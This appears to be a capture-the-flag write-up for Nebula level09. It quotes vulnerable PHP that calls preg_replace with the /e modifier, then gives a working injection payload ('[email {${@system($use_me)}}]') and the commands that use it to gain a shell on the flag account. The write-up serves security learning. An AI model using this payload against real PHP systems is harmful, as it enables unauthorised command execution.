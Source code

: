 * Level09
  :PROPERTIES:
  :CUSTOM_ID: level09
  :END:
** Task
   :PROPERTIES:
   :CUSTOM_ID: task
   :END:

#+begin_quote
  There's a C setuid wrapper for some vulnerable PHP code...
#+end_quote

#+begin_quote
  To do this level, log in as the level09 account with the password
  level09. Files for this level can be found in /home/flag09.
#+end_quote

#+begin_example
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
#+end_example

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:
When =pre_replace= is used with the =/e= flag, the replacement string is
substituted, evaluated, and replaced in the original. By looking at the
PHP source code, we see the following:
=$contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);=
the regex will mean that it is the pattern =([email EMAIL])= where
=EMAIL= will be evaluated by the function.

with that in mind crafting the following payload allows us to get the
flag

#+begin_example
level09@nebula:/home/flag09$ echo '[email {${@system($use_me)}}]' > /tmp/09
#+end_example

here the email arg will be an argument that will send the next argument
to the system.

#+begin_example
level09@nebula:/home/flag09$ ./flag09 /tmp/09 sh
sh-4.2$ getflag
You have successfully executed getflag on a target account
#+end_example
